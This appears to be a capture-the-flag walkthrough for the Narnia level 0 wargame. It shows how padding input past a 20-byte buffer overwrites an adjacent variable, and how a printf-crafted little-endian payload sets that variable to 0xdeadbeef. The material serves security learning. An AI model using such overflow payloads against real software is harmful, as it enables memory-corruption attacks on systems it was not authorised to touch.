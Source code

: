 for these much `BBBBBBBBBBBBBBBBBBBB` it occupied like this but its declared 20 mem space , let push furthermore adding more `BBBB`
 
<img src="img/Pasted image 20240716221418.png" alt="Example Image" width="1080"/>

Buffer overflow happened at `BBBBBBBBBBBBBBBBBBBBBBBB` and overwritten `$val` with `0x42424242`

<img src="img/Pasted image 20240716221615.png" alt="Example Image" width="1080"/>we added `ABCD` at the end of `BBBBBBBBBBBBBBBBBBBB` , see that  `41,42,43,44` are ascii for `A,B,C,D` respectively

<img src="img/Pasted image 20240716221943.png" alt="Example Image" width="1080"/>

It follows little endian format that the reason `44,43,42,41` are in reverse order we can't able to use hex as std input , exit from gdb,  use `printf` for hex value , its will preprocess it and use pipe operator

```
narnia0@gibson:/narnia$ printf "BBBBBBBBBBBBBBBBBBBBBBBB" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBBB
val: 0x42424242
WAY OFF!!!!

# its working ,then  let preprocess those hex value `0xdeadbeef` in little endian format

narnia0@gibson:/narnia$printf "BBBBBBBBBBBBBBBBBBBB\xef\xbe\xad\xde" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
```
